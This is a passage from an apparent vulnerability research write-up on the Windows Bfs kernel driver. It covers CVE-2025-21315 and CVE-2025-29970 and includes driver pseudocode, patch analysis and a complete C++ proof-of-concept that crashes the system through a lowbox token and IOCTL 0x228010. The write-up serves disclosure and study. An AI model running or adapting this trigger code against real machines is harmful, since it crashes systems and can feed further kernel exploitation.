HANDLE hThread2 = CreateThread(nullptr, 0,
(LPTHREAD_START_ROUTINE)Trigger,
hToken,
0, nullptr);
getchar();
}
else printf("[!] Unable to create low box token\n");
return 0;
}CVE-2025-21372 Trigger Code
Originally, CVE-2025-21315 seemed a bit easier to trigger due to the nature of the bug (certain code paths did not properly lock the PolicyTable object). With that said, a successful trigger was not developed in the time allocated to this project due to a variety of reasons with the biggest being the following:
PolicyEntry structure was a lot more complex and
contained nested structures such as the StorageObject
structureCVE-2025-21315 including:
DereferencePolicyEntry on a PolicyEntry
without a backing StorageObject
Non existent
policy entry is created from Registery operation hooksCVE-2025-29970) being
discovered in the DereferencePolicyEntry logicBfsEnumeratePolicy Null Pointer Derference DetailsThe BfsProcessDeletePolicyEntryRequest function, is callable from the MAJOR_DEVICE_CONTROL (BfsDeviceIoControl) function if an IO Control Code (IOCTL) of 0x228010 is suppolied to DeviceIoControl from usermode. The BfsProcessDeletePolicyEntryRequest function is responsible for deleting PolicyEntry objects from the PolicyTable object. The function pseduocode can be seen below:
__int64 __fastcall BfsProcessDeletePolicyEntryRequest(void *TokenHandle)
{
// ... snip ...
// 1. Get `ACCESS_TOKEN` object from User Supplied Token Value
v1 = ObReferenceObjectByHandle(TokenHandle, 8u, SeTokenObjectType, 1, &Token, nullptr);
// ... snip ...
// 2. Check if AppSilo Token
if (!BfsIsApplicableToken(Token)) {
// ... snip ...
}
v1 = SeQueryInformationToken(Token, TokenUser, &TokenInformation);
v5 = v1;
if (v1 < 0 ||
(v1 = SeQueryInformationToken(Token, TokenAppContainerSid, &P), v5 = v1, v1 < 0) ||
(v1 = BfsRemovePolicyEntry(gBfsFilterHandle, *reinterpret_cast<PSID*>(&P)), v5 = v1, v1 < 0)) {
// ... snip ...
}
LABEL_11:
// ... snip ...
// cleanup
return v5;
}BfsProcessDeletePolicyEntryRequest PseduoCode
BfsProcessDeletePolicyEntryRequest will first fetch the ACCESS_TOKEN object from the user supplied input handle (1). The function then confirms the user supplied token is an AppSilo token (2). And finally the function will call BfsRemovePolicyEntry. The Pseduocode for BfsRemovePolicyEntry can be seen below:
__int64 __fastcall BfsRemovePolicyEntry(... args ...)
{
// 1. Fetch PolicyEntry from hash table
PolicyEntry* PolicyEntry = BfsLookupPolicyEntryHashTable(PolicyTable->HashTable, HASH, UserSid, AppContainerSid);
PolicyEntry* PolicyEntryBak = PolicyEntry;
// 2. If policy exists, remove from hash table and remove other policies from global table
if (PolicyEntry) {
BfsRemoveEntryHashTable(PolicyTable->HashTable, &PolicyEntry->HashEntry);
if (Feature_Servicing_BfsGAFeature__private_IsEnabledDeviceUsageNoInline()) {
BfsRemoveAllPoliciesFromGlobalFileTable(&gBfsGlobalFileTable, PolicyEntryBak);
}
BfsDereferencePolicyEntry(PolicyEntryBak);
}
// ... snip ...
// irreleveant logic / cleanup
return v18;
}BfsRemovePolicyEntry Psuedocode
BfsRemovePolicyEntry is responsible for fetching the PolicyEntry in the hash table (1). Then removing the PolicyEntry from the entry from the hash table performing other cleanup duties (2). One of the cleanup duties involves a call to BfsRemoveAllPoliciesFromGlobalFileTable.The first operations performed by BfsRemoveAllPoliciesFromGlobalFileTable is calling BfsEnumeratePolicy and passing PolicyEntry as the first argument. The beginning logic of BfsEnumeratePolicy fetches the storage object pointer from the PolicyEntry and acquires a shared lock on the object by calling ExAcquirePushLockSharedEx as shown below:
__int64 __fastcall BfsEnumeratePolicy(PolicyEntry *PolEntry, __int64 a2, _DWORD *a3, int *r9_0)
{
// ... snip ...
StorObject = PolEntry->StorObject;
v35 = &v34;
v34 = &v34;
KeEnterCriticalRegion();
ExAcquirePushLockSharedEx(StorObject, 0LL);
p_UnkTable = &PolEntry->StorObject->UnkTable;
// ... snip ...BfsEnumeratePolicy Pseduocode
Finally, the null pointer derference is triggered when calling ExAcquirePushLockSharedEx. This issue occurs for 2 major reasons:
PolicyEntry object, the function
ExAllocatePool2 to allocate the object
ExAllocatePool2 by default initializes the memory when
allocating an objectBfsEnumeratePolicy Null Pointer Derference Trigger#include <Windows.h>
#include <userenv.h>
#include <sddl.h>
#include <winternl.h>
#include <stdio.h>
#pragma comment(lib, "userenv.lib")
#pragma comment(lib, "ntdll.lib")
typedef NTSTATUS(NTAPI* PNtCreateLowBoxToken)(
PHANDLE TokenHandle,
HANDLE ExistingTokenHandle,
ACCESS_MASK DesiredAccess,
POBJECT_ATTRIBUTES ObjectAttributes,
PSID PackageSid,
ULONG CapabilityCount,
PSID_AND_ATTRIBUTES Capabilities,
ULONG HandleCount,
HANDLE* Handles
);
BOOL Debug = 0;
HANDLE tLowbox;
HANDLE hDevice;
typedef struct _DeletePolicyRequest {
HANDLE hToken;
} DeletePolicyRequest, * PDeletePolicyRequest;
HANDLE GenerateLowBoxToken() {
HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
if (!hNtdll) {
printf("Failed to get ntdll.dll handle\n");
return INVALID_HANDLE_VALUE;
}
PNtCreateLowBoxToken pNtCreateLowBoxToken = (PNtCreateLowBoxToken)GetProcAddress(hNtdll, "NtCreateLowBoxToken");
// Resolve App Container Sid for Widgets Container
const wchar_t* containerName = L"MicrosoftWindows.Client.WebExperience_cw5n1h2txyewy";
PSID appContainerSid = nullptr;
HRESULT hr = DeriveAppContainerSidFromAppContainerName(containerName, &appContainerSid);
if (FAILED(hr)) {
printf("DeriveAppContainerSid failed. HR(%x)\n", hr);
return INVALID_HANDLE_VALUE;
}
wchar_t* wsAppContainerSid;
ConvertSidToStringSidW(appContainerSid, &wsAppContainerSid);
if (Debug) {
printf("AppContainerSid: %ws\n", wsAppContainerSid);
}
// privateNetworkClientServer capability (`S-1-15-3-65536`)
const DWORD capCt = 3;
SID_AND_ATTRIBUTES caps[capCt] = {};
PSID capSid = nullptr;
if (!ConvertStringSidToSidW(L"S-1-15-3-65536", &capSid)) {
printf("ConvertStringSidToSid failed.\n");
return INVALID_HANDLE_VALUE;
}
caps[0].Sid = capSid;
caps[0].Attributes = SE_GROUP_ENABLED;
// runFullTrust capability
if (!ConvertStringSidToSidW(L"S-1-15-3-1024", &capSid)) {
printf("ConvertStringSidToSid failed.\n");
return INVALID_HANDLE_VALUE;
}
caps[1].Sid = capSid;
caps[1].Attributes = SE_GROUP_ENABLED;
// runFullTrust capability
if (!ConvertStringSidToSidW(L"S-1-15-3-1030", &capSid)) {
printf("ConvertStringSidToSid failed.\n");
return INVALID_HANDLE_VALUE;
}
caps[2].Sid = capSid;
caps[2].Attributes = SE_GROUP_ENABLED;
// 3. Capture the current process token
HANDLE existingToken = nullptr;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &existingToken)) {
printf("OpenProcessToken failed.\n");
return INVALID_HANDLE_VALUE;
}
OBJECT_ATTRIBUTES oa = {};
InitializeObjectAttributes(&oa, nullptr, 0, nullptr, nullptr);
// 4. Use `NtCreateLowBoxToken` to generate a `LowBoxToken` based on the current process token with `privateNetworkClientServer` capability
HANDLE lowboxToken = nullptr;
NTSTATUS status = pNtCreateLowBoxToken(
&lowboxToken,
existingToken,
TOKEN_ALL_ACCESS,
&oa,
appContainerSid,
capCt,
caps,
0,
nullptr
);
if (status != 0) {
printf("NtCreateLowBoxToken failed: 0x%X\n", status);
return INVALID_HANDLE_VALUE;
}
// 5. Return Token
printf("Successfully Created Lowbox Token\n");
return lowboxToken;
}
extern "C" NTSTATUS NTAPI NtOpenKey(
PHANDLE KeyHandle,
ACCESS_MASK DesiredAccess,
POBJECT_ATTRIBUTES ObjectAttributes
);
// Needed for UNICODE_STRING initialization
void InitUnicodeString(PUNICODE_STRING destination, const wchar_t* source) {
size_t len = wcslen(source) * sizeof(wchar_t);
destination->Length = static_cast<USHORT>(len);
destination->MaximumLength = static_cast<USHORT>(len + sizeof(wchar_t));
destination->Buffer = const_cast<PWSTR>(source);
}
int main() {
Debug = TRUE;
HANDLE hToken = GenerateLowBoxToken();
if (hToken != INVALID_HANDLE_VALUE) {
HANDLE hDevice = CreateFileW(
L"\\\\?\\GLOBALROOT\\Device\\Bfs",
GENERIC_READ | GENERIC_WRITE,
0,
NULL,
OPEN_EXISTING,
0,
NULL);
if (hDevice != INVALID_HANDLE_VALUE) {
printf("Successfully Opened Handle to Device\n");
}
else {
printf("Error Opening Handle to Device %d", GetLastError());
}
if (!ImpersonateLoggedOnUser(hToken)) {
printf("Could not impersonate in thread :( ");
return 1;
}
printf("Impersonated Lowbox Token\n");
BOOL nt = true; // was using this for te
const wchar_t* path = L"\\Registry\\WC\\Silo\\9"; // Replace "9" with your silo ID
UNICODE_STRING keyPath;
InitUnicodeString(&keyPath, path);
OBJECT_ATTRIBUTES objAttr;
InitializeObjectAttributes(&objAttr, &keyPath, OBJ_CASE_INSENSITIVE, NULL, NULL);
HANDLE hKey = nullptr;
NTSTATUS status = NtOpenKey(&hKey, KEY_READ, &objAttr);
if (NT_SUCCESS(status)) {
printf("Successfully opened key : %ws\n", path);
NtClose(hKey);
}
else {
printf("Failed to open key. NTSTATUS: 0x%X\n",status);
}
DWORD ret;
PDeletePolicyRequest inBuf = (PDeletePolicyRequest)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PDeletePolicyRequest));
inBuf->hToken = hToken;
if (DeviceIoControl(hDevice, 0x228010, (LPVOID)inBuf, sizeof(PDeletePolicyRequest), NULL, NULL, &ret, NULL)) {
printf("Success DeviceIoControl", GetLastError());
}
else {
printf("Error DeviceIoControl %d\n", GetLastError());
}
return 0;
}
else {
printf("Error, did not recieve valid valid token handle");
}
return 0;
}BfsEnumeratePolicy NPD Trigger Code
CVE-2025-29970After addressing the BfsEnumeratePolicy null pointer dereference (by creating a legitimate policy entry through the BfsProcessSetPolicyRequest) function. Another, attempt was made to trigger CVE-2025-21315. When calling BfsDereferencePolicyEntry this time, the original NPD did not trigger but another blue screen was encountered in BfsCloseStorage, a function called to clean up the storage object in the PolicyEntry object. When reviewing the code around the crash, it was apparent that an object was being freed in a looping mechanism as shown below:
for ( Index = StorageObj->Alloc_BfsH; ; ExFreePoolWithTag(Index, 0) ) // free
{
DereferncedPtr = *Index; // Use
if ( *Index == Index )
break;
if ( *(DereferncedPtr + 1) != Index || (v6 = *DereferncedPtr, *(*DereferncedPtr + 8LL) != DereferncedPtr) )
__fastfail(3u);
*Index = v6;
v6[1] = Index;
ExFreePoolWithTag(*(DereferncedPtr + 2), 0);
ExFreePoolWithTag(DereferncedPtr, 0);
}BfsCloseStorage UAF Bug Logic
The real issue occurs because a pointer was being freed and then dereferenced again when the code loops again. To patch the bug, Microsoft simply moved the free outside of the loop as shown below:
if ( (unsigned int)CVE_2025_29970_Patch() )
{
while ( 1 )
{
v4 = *(PVOID *)Index;
if ( *(PVOID *)Index == Index )
break;
if ( *((PVOID *)v4 + 1) != Index || (v5 = *(_QWORD *)v4, *(PVOID *)(*(_QWORD *)v4 + 8LL) != v4) )
LABEL_10:
__fastfail(3u);
*(_QWORD *)Index = v5;
*(_QWORD *)(v5 + 8) = Index;
ExFreePoolWithTag(*((PVOID *)v4 + 2), 0);
ExFreePoolWithTag(v4, 0);
}
ExFreePoolWithTag(Index, 0);
}CVE-2025-29970 Patch